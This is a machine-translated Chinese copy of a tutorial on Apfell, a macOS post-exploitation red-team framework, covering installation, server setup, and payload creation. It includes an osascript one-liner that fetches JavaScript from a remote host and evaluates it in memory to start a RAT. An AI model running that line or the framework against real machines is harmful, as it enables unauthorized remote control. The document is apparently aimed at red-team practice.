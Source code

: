 # AP fell——一个 MacOS，后剥削，红色组队框架

> 原文：<https://kalilinuxtutorials.com/apfell-macos-framework/>

Apfell 是一个 macOS，post-exploit，red teaming 框架，用 python3 和 JavaScript 构建。它旨在为基于 mac 和 linux 的 red 团队中的操作员、经理和报告人员提供一个协作和用户友好的界面。这是一个正在进行中的工作，因为我有空闲时间，所以请原谅我。

**也可理解为[Firebase——利用错误配置的 Firebase 数据库的工具](https://kalilinuxtutorials.com/firebase-misconfigured-databases/)**

## **Apfell 安装**

*   从这个 github 获取代码:

```
git clone https://github.com/its-a-feature/Apfell
```

*   安装并设置需求(注意:Sanic 服务器说它只在 Linux 上工作):

```
# The setup.sh will install postgres and pip3 install the requirements
cd Apfell && chmod +x setup.sh && sudo ./setup.sh && cd ..
```

*   在 app/__init__ 中配置安装。py:

```
# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'apfell_user'
db_pass = 'super_secret_apfell_user_password'
server_ip = '127.0.0.1'  # this will be used by the browser to callback here, edit this!
listen_port = '443'
listen_ip = '0.0.0.0'  # IP to bind to for the server, 0.0.0.0 means all local IPv4 addresses
ssl_cert_path = './app/ssl/apfell-cert.pem'
ssl_key_path = './app/ssl/apfell-ssl.key'
use_ssl = True
```

*   目前 Sanic 和 websockets 6/7 有一个问题(跟踪的问题，但还没有拉请求)您需要编辑 Sanic 并稍作更新(我将为 Sanic 发出一个拉请求，因此我们不需要这样做，但这需要一点时间)。同时，执行`**sudo find / -type f -name "app.py"**`找到合适的 Sanic 文件进行编辑。在这里，找到显示`protocol = **request.transport._protocol**`的行，并将其编辑为:

```
if hasattr(request.transport, '_app_protocol'): 
    protocol = request.transport._app_protocol
else: 
    protocol = request.transport._protocol
```

## **用途**

*   启动服务器:

```
python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ https://0.0.0.0:443
```

默认情况下，服务器将绑定到端口 443 上的 0.0.0.0。这是一个别名，意味着它将侦听机器上的所有 IPv4 地址。你实际上并没有在你的浏览器中浏览到[https://0 . 0 . 0:443](https://0.0.0.0:443)。相反，如果你在运行服务器的同一台机器上，你可以浏览到 [https://localhost:443](https://localhost:443) ，或者你可以浏览到运行服务器的机器上的任何 IPv4 地址。您也可以浏览到您在安装部分的`**server_ip = '192.168.0.119'**`中指定的 IP 地址。

*   **使用任何现代网络浏览器浏览服务器**

![](img/621367faa10359e6dc022982f3c61586.png)

*   **创建新用户:**

![](img/6da60967cee1cd5fb33d18d27ecd99d4.png)

*   **创建新的有效载荷:**

![](img/1a94399ebdbe459d288b1d8f08d61195.png)

*   **托管新的有效载荷:**

![](img/5da2620746986d79bad96ab059a2fccf.png)

This will start a python simple web server in the /tmp directory on port 8080.

*   下拉并执行内存中的有效负载:

```
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));"
```

*   **与新老鼠互动:**

![](img/d7f9f340a24f488601942669a654a501.png)

## **服务器内帮助**

一旦你登录到 Apfell，你可以访问一些额外的帮助。

*   **命令行**–提供关于如何通过终端和 Curl 与 RESTful 接口交互的信息
*   **文档**——最终将提供一份更全面的手册，介绍如何组织 Apfell，如何扩展它，日志如何工作，以及如何与仪表板交互
*   **AP fell-jxa help**–提供有关可发送给 apfell-jxa RAT 的命令行、其工作方式及其参数的帮助

[![https://github.com/Nekmo/dirhunt](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/its-a-feature/Apfell)